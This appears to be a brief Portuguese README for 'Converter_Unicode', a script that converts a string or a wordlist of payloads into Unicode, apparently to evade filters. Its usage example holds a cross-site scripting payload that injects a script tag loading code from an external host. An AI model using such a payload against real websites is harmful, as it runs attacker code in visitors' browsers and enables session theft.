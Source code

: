 # Converter_Unicode

</h1>Passe para o programa uma unica string ou um arquivo de payloads para converter</h1>
</br>
<h2>instalar=> pip install termcolor</h2>
</br>

<h3>Uso exemplo para string: python3 teste.py -s "><script src=\"https://js.rip/j14fkfemu3\"></script></h3>
</br>
<h3>Uso exemplo para wordlist.txt: python3 teste.py -w texto.txt</h3>

</br>

<img src="./uni.png">
